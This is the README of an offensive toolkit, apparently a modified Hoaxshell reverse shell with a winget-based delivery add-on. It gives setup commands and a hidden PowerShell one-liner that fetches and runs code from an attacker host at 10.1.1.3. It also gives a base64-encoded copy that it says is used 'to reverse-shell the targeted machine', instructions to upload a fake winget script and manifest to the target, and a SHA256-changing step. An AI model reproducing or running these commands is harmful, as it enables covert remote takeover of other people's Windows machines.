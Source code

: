 # sp-hoaxshell

Copy of the real Hoaxshell (https://github.com/t3l3machus/hoaxshell) with modifications to automatise everything
& see : https://github.com/SentinelSamuel/sp-hoaxshell


<img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Hoax.png" width="500">

## Installation + configuration before the start
```
sudo git clone https://github.com/t3l3machus/hoaxshell.git
sudo rm ./hoaxshell/hoaxshell.py
sudo git clone https://github.com/SentinelSamuel/sp-hoaxshell.git
sudo mv ./sp-hoaxshell/hoaxshell.py ./hoaxshell
sudo mv ./sp-hoaxshell/sp-hoax/ ./
sudo rm -rf ./sp-hoaxshell
sudo pip3 install -r ./hoaxshell/requirements.txt
sudo chmod +x ./hoaxshell/hoaxshell.py
cd sp-hoax/
```

### 1) Start Python server
```
# maybe a sudo before ?
bash python-server-1.sh
```
### 2) Start hoaxshell
```
# IN ANOTHER BASH PROMPT
# maybe a sudo before ?
bash hoaxshell-2.sh  
```
### 3) Make the info file correct
```
# IN ANOTHER BASH PROMPT
# maybe a sudo before ?
pwsh info-3.ps1
```


## Some infos :
```
# Not encoded :
$e=Invoke-RestMethod -Uri "http://10.1.1.3:70/sp-hoax/info"; powershell -WindowStyle hidden -e $e
```
```
# Encoded with this :
$text='<Your commands>'
$encoded=[convert]::ToBase64String([Text.Encoding]::Unicode.getBytes($text))
$encoded
```
```
# Encoded & used in the scripts to reverse-shell the targeted machine
powershell -WindowStyle hidden -e "JABlAD0ASQBuAHYAbwBrAGUALQBSAGUAcwB0AE0AZQB0AGgAbwBkACAALQBVAHIAaQAgACIAaAB0AHQAcAA6AC8ALwAxADAALgAxAC4AMQAuADMAOgA3ADAALwBzAHAALQBoAG8AYQB4AC8AaQBuAGYAbwAiADsAIABwAG8AdwBlAHIAcwBoAGUAbABsACAALQBXAGkAbgBkAG8AdwBTAHQAeQBsAGUAIABoAGkAZABkAGUAbgAgAC0AZQAgACQAZQA="
```

## AFTER INSTALLING AND DOING EVERYTHING IN THE sp-hoaxshell
Winget.ps1 & winget-manifest.yml --> upload on the target machine

## Installation & configuration before the start :
```
git clone https://github.com/SentinelSamuel/sp-winget-RS-hoax.git
cd ./sp-winget-RS-hoax/winget
``` 

### 4) Start Sha256 changer
```
sudo bash change-sha256.sh
```
